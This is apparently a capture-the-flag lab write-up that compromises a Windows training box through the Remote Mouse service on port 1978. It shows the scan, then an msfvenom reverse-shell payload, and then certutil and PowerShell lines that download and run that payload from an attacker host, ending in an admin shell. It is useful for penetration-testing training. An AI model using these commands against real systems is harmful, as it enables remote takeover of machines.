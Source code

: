 # 0. Sources

|||
|---|---|
|[YouTube](https://www.youtube.com/watch?v=unDGYDe1ljw)|[Download](https://drive.google.com/file/d/1uTJDtFDX9WkhUt-HEuZ5iNS-3CmHMP0m/view)|

# 1. nmap scan

```console
┌──(root㉿kali)-[~]
└─$ nmap -p- -A 10.0.88.34
Starting Nmap 7.93 ( https://nmap.org ) at 2022-11-27 08:15 +08
Nmap scan report for 10.0.88.34
Host is up (0.0012s latency).
Not shown: 65515 closed tcp ports (conn-refused)
PORT      STATE SERVICE        VERSION
21/tcp    open  ftp            FileZilla ftpd 0.9.41 beta
| ftp-syst:
|_  SYST: UNIX emulated by FileZilla
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxr-xr-x 1 ftp ftp              0 Sep 14  2021 AccountPictures
| drwxr-xr-x 1 ftp ftp              0 Oct 01  2021 Desktop
| -r--r--r-- 1 ftp ftp            174 Jul 16  2016 desktop.ini
| drwxr-xr-x 1 ftp ftp              0 Sep 14  2021 Documents
| drwxr-xr-x 1 ftp ftp              0 Jul 16  2016 Downloads
| drwxr-xr-x 1 ftp ftp              0 Oct 01  2021 FTP
| drwxr-xr-x 1 ftp ftp              0 Jul 16  2016 Libraries
| drwxr-xr-x 1 ftp ftp              0 Jul 16  2016 Music
| drwxr-xr-x 1 ftp ftp              0 Jul 16  2016 Pictures
|_drwxr-xr-x 1 ftp ftp              0 Jul 16  2016 Videos
80/tcp    open  http           Apache httpd 2.4.17 ((Win32) OpenSSL/1.0.2d PHP/5.6.14)
| http-title: Welcome to XAMPP
|_Requested resource was http://10.0.88.34/dashboard/
|_http-server-header: Apache/2.4.17 (Win32) OpenSSL/1.0.2d PHP/5.6.14
135/tcp   open  msrpc          Microsoft Windows RPC
139/tcp   open  netbios-ssn    Microsoft Windows netbios-ssn
443/tcp   open  ssl/http       Apache httpd 2.4.17 ((Win32) OpenSSL/1.0.2d PHP/5.6.14)
| tls-alpn:
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_http-server-header: Apache/2.4.17 (Win32) OpenSSL/1.0.2d PHP/5.6.14
| http-title: Welcome to XAMPP
|_Requested resource was https://10.0.88.34/dashboard/
445/tcp   open  microsoft-ds   Windows 10 Pro 14393 microsoft-ds (workgroup: ITSL)
1978/tcp  open  unisql?
| fingerprint-strings:
|   DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, JavaRMI, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NULL, RTSPRequest, SIPOptions, SSLSessionReq, TLSSessionReq, ms-sql-s:
|_    SIN 15win nop nop 300
1979/tcp  open  unisql-java?
1980/tcp  open  pearldoc-xact?
3306/tcp  open  mysql          MariaDB (unauthorized)
3389/tcp  open  ms-wbt-server  Microsoft Terminal Services
| rdp-ntlm-info:
|   Target_Name: MOUSEKATOOL2
|   NetBIOS_Domain_Name: MOUSEKATOOL2
|   NetBIOS_Computer_Name: MOUSEKATOOL2
|   DNS_Domain_Name: mousekatool2
|   DNS_Computer_Name: mousekatool2
|   Product_Version: 10.0.14393
|_  System_Time: 2022-11-27T00:17:50+00:00
| ssl-cert: Subject: commonName=mousekatool2
| Not valid before: 2022-11-26T15:13:31
|_Not valid after:  2023-05-28T15:13:31
|_ssl-date: 2022-11-27T00:18:18+00:00; 0s from scanner time.
5357/tcp  open  http           Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Service Unavailable
8021/tcp  open  ftp-proxy?
| fingerprint-strings:
|   NULL:
|     Content-Type: text/rude-rejection
|     Content-Length: 24
|     Access Denied, go away.
|     Content-Type: text/disconnect-notice
|     Content-Length: 67
|     Disconnected, goodbye.
|_    ClueCon! http://www.cluecon.com/
49664/tcp open  msrpc          Microsoft Windows RPC
49665/tcp open  msrpc          Microsoft Windows RPC
49666/tcp open  msrpc          Microsoft Windows RPC
49667/tcp open  msrpc          Microsoft Windows RPC
49668/tcp open  msrpc          Microsoft Windows RPC
49669/tcp open  msrpc          Microsoft Windows RPC
49683/tcp open  msrpc          Microsoft Windows RPC
⋮
```

# 2. Checking for exploits

At first look, it appears that `21/ftp`, `80/http` and `443/https` are easy targets.

However, enumerating the FTP didn't return any useful data, and there doesn't seem to be any exploits usable on the XAMPP stack.

All looks lost: it doesn't seem like there are any other exploits available, and the unknown ports 1978, 1979 and 1980 appear to point to unisql, unisql-java and peardoc-xact when you google for the port numbers.

☝️ **Important learning point from this box:**
- Be sure to check out the banner information (if any) returned from the scan
- Port 1978 returned a gibberish banner `SIN 15win nop nop 300`, which upon googling, leads you to the [Remote Mouse exploit](https://www.exploit-db.com/raw/46697)
- Another method is to google for `1978 site:www.exploit-db.com`, which will also return the Remote Mouse exploit as a result

The 46697.py expolits Remote Mouse to launch `calc.exe`; the line `SendString("calc.exe",ip)` can be modified to run other commands.

# 3. Getting a shell

Generate reverse shell executable and place in web server root:

(Apache2 is already running with DocumentRoot at `/var/www/html`)

```console
┌──(root㉿kali)-[~]
└─# msfvenom -p windows/x64/shell_reverse_tcp LHOST=kali.vx LPORT=4444 -f exe -o /var/www/html/reverse.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: /var/www/html/reverse.exe
```

Open another console window on Kali to listen for connections:

```console
┌──(root㉿kali)-[~]
└─$ nc -nlvp 4444
listening on [any] 4444 ...
```

Modify the exploit to download and run the payload

**Option 1:** using Command Prompt

```console
SendString("cmd /c "certutil.exe /urlcache /f /split http://kali.vx/reverse.exe && .\\reverse.exe"",ip)
```

**Option 2:** using PowerShell

```console
SendString("powershell.exe -NoProfile -ExecutionPolicy Bypass -Command (New-Object System.Net.WebClient).DownloadFile('http://kali.vx/reverse.exe','reverse.exe'); Start-Process reverse.exe",ip)
```

Run the exploit

```console
┌──(root㉿kali)-[~]
└─$ python2 46697.py 10.0.88.34
('SUCCESS! Process calc.exe has run on target', '10.0.88.34')
```

Verify that the reverse shell has hooked on from the listener console

```cmd
connect to [192.168.17.10] from (UNKNOWN) [10.0.88.34] 49881
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
mousekatool2\mickey

C:\Windows\system32>whoami /groups
whoami /groups

GROUP INFORMATION
-----------------

Group Name                                                    Type             SID          Attributes
============================================================= ================ ============ ===============================================================
Everyone                                                      Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account and member of Administrators group Well-known group S-1-5-114    Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators                                        Alias            S-1-5-32-544 Mandatory group, Enabled by default, Enabled group, Group owner
BUILTIN\Users                                                 Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE                                      Well-known group S-1-5-4      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                                                 Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users                              Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization                                Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account                                    Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
LOCAL                                                         Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication                              Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level                          Label            S-1-16-12288
```

Excellent, we now have shell on the target, and it is an admin shell (High Mandatory Level)

# 5. Getting the proof

Since we know that the proof is a file on the user's desktop, let's get straight to it

```cmd
C:\Windows\system32>cd %USERPROFILE%
cd %USERPROFILE%

C:\Users\Mickey>dir /s *flag.txt*
dir /s *flag.txt*
 Volume in drive C has no label.
 Volume Serial Number is DA18-B95C

 Directory of C:\Users\Mickey\AppData\Roaming\Microsoft\Windows\Recent

10/01/2021  01:55 PM               554 flag.txt.lnk
               1 File(s)            554 bytes

 Directory of C:\Users\Mickey\Desktop

10/01/2021  01:56 PM               345 flag.txt.txt
               1 File(s)            345 bytes

     Total Files Listed:
               2 File(s)            899 bytes
               0 Dir(s)  40,675,540,992 bytes free

C:\Users\Mickey>type Desktop\flag.txt.txt
type Desktop\flag.txt.txt
What we have learned:
1) ALWAYS check ftp with anonymous
2)check every running ports, BANNERS, BANNERS can have good info!
3)Look for public exploits
4)Know how to read public exploits
5) If one way fails, try another way

CONGRATS ON ROOTING THE BOX

Try the next one from ITSL
https://www.youtube.com/channel/UCXPdZsu8g1nKerd-o5A75vA
```
